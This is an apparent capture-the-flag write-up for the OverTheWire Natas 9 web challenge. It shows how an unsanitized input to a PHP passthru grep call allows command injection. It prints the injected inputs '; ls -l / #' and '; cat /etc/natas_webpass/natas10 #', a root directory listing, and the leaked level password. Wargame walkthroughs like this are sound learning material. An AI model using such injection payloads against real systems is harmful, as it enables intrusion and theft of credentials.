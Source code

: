 # [Natas 9](http://overthewire.org/wargames/natas/natas9.html "Natas 9 Web Challenge Page")


We use the password from the previous challenge to log into Natas 9. After logging in, the challenge says:

`Find words containing:`

Below the text box, there is a link to view sourcecode again! There we can see that the challenge is using a passthru command with an unsantized $key value (which we control, using the text box). That sounds like RCE (Remote Code Execution) to me! :D

I figured the best way to test for the RCE would be end the statemeng, and then try to list out some file, and comment out the rest of the command. `; ls -l / # ` Should be input into the box to test that. 

```
total 7957
-rw-r--r--   1 root root    2797 Nov  4  2015 README.txt
lrwxrwxrwx   1 root root      15 Nov 14  2014 behemoth -> /games/behemoth
drwxr-xr-x   2 root root    4096 Apr 15 07:07 bin
drwxr-xr-x   2 root root    4096 Apr 20  2014 boot
drwxr-xr-x  12 root root   13680 Jul  4 13:13 dev
drwxr-xr-x   7 root root    4096 Jan 12  2015 drifter
lrwxrwxrwx   1 root root      11 Nov 14  2014 eloi -> /games/eloi
drwxr-xr-x 108 root root    4096 Jul 12 20:44 etc
drwxr-xr-x  11 root root    1024 Mar 18  2015 games
drwxr-xr-x 172 root root    4096 Jul 10 14:12 home
lrwxrwxrwx   1 root root      14 Nov 14  2014 krypton -> /games/krypton
drwxr-xr-x  18 root root    4096 Jun 10 12:34 lib
drwxr-xr-x   2 root root    4096 Jun 10 12:34 lib32
drwxr-xr-x   2 root root    4096 Jun 10 12:34 lib64
drwxr-xr-x   2 root root    4096 Jun 10 12:34 libx32
drwx------   2 root root   16384 Apr 20  2014 lost+found
lrwxrwxrwx   1 root root      14 Nov 14  2014 manpage -> /games/manpage
lrwxrwxrwx   1 root root      11 Nov 14  2014 maze -> /games/maze
drwxr-xr-x   3 root root    4096 Apr 20  2014 media
drwxr-xr-x   2 root root    4096 Apr 10  2014 mnt
lrwxrwxrwx   1 root root      13 Nov 14  2014 narnia -> /games/narnia
drwxr-xr-x   2 root root    4096 Apr 16  2014 opt
dr-xr-xr-x 446 root root       0 Jul  4 13:12 proc
drwx------  11 root root    4096 Jul 10 14:12 root
drwxr-xr-x  18 root root     680 Jul 13 00:54 run
drwxr-xr-x   2 root root   12288 Jun 26 13:59 sbin
lrwxrwxrwx   1 root root      13 Nov 14  2014 semtex -> /games/semtex
drwxr-xr-x   2 root root    4096 Apr 16  2014 srv
dr-xr-xr-x  13 root root       0 Jul  4 15:15 sys
drwxrwx-wt   1 root root 8036352 Jul 13 00:54 tmp
drwxr-xr-x  12 root root    4096 Nov 14  2014 usr
lrwxrwxrwx   1 root root      13 Nov 14  2014 utumno -> /games/utumno
drwxr-xr-x  15 root root    4096 Nov 14  2014 var
lrwxrwxrwx   1 root root      13 Nov 14  2014 vortex -> /games/vortex
```

The above is the output of the command. Now using the clue they gave us on the homepage (where each user's password resides on the system), we can not attempt to leak the password!

`; cat /etc/natas_webpass/natas10 #`

Was the command I used, and the output was `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

With that password, we can now log into [Natas10](https://github.com/ProDigySML/Security-Writeups/Natas/Natas10 "Natas 10")

The passthru command in the challenge: `passthru("grep -i $key dictionary.txt");`